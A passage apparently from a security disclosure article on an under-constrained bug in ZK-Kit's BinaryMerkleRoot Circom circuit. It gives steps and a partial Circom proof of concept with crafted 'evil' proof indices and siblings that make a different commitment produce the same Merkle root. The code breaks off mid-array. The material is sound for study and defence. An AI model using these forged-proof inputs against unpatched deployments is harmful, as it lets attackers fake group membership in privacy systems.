 ## Impact on ZK-Kit BinaryMerkleRoot circuit

The following code can be tested on [zkrepl](https://zkrepl.dev/).
    
Examples will be provided for proof lengths 1 and 2, but the same approach applies to proofs of greater length as well.

### Proof Length 1

#### Steps

1. Assign the value `5407869850562333726769604095330004527418297248703115046359956082084347839061` to `target0`.
2. Assign the value: `18699903263915756199535533399390350858126023699350081471896734858638858200219` to `target1`.
3. Set `N` to the commitment you want to test. For this example, use `8501798477768465939972755925731717646123222073408967613007180932472889698337`.
4. You will get two values: `sel` (used in `evilmerkleProofIndices`) and `S` (used in `evilmerkleProofSiblings`).

![Sage Math ZK-Kit Proof Length 1](/articles/under-constrained-bug-in-binary-merkle-root-circuit-fixed-in-v200/sage-math-zk-kit-proof-length-1.png)
    
#### Circom Code

```circom
pragma circom 2.1.5;

include "circomlib/circuits/poseidon.circom";
include "circomlib/circuits/mux1.circom";
include "circomlib/circuits/comparators.circom";

// Copy/paste BinaryMerkleRoot circuit from https://github.com/privacy-scaling-explorations/zk-kit.circom/blob/binary-merkle-root.circom-v1.0.0/packages/binary-merkle-root/src/binary-merkle-root.circom

template Poc () {
    
//          Root: 11531730952042319043316244572610162829336743623472270581141123607628087976577
//            /                                                                            \
// 5407869850562333726769604095330004527418297248703115046359956082084347839061   18699903263915756199535533399390350858126023699350081471896734858638858200219


    var identityCommitment = 5407869850562333726769604095330004527418297248703115046359956082084347839061;
    var merkleProofLength = 1;
    var merkleProofIndices[12] = [
        0, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0
    ];
    var merkleProofSiblings[12] = [
        18699903263915756199535533399390350858126023699350081471896734858638858200219, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0
    ];
    var root = BinaryMerkleRoot(12)(identityCommitment, merkleProofLength, merkleProofIndices, merkleProofSiblings);
    log("=========================================");
    var evilidentityCommitment = 8501798477768465939972755925731717646123222073408967613007180932472889698337;
    var evilmerkleProofLength = 1;
    var evilmerkleProofIndices[12] = [
        18511496158608553025564813493375997586708949594403917543049321156580578626782, 0, 0, 0, 0, 0, 0,
```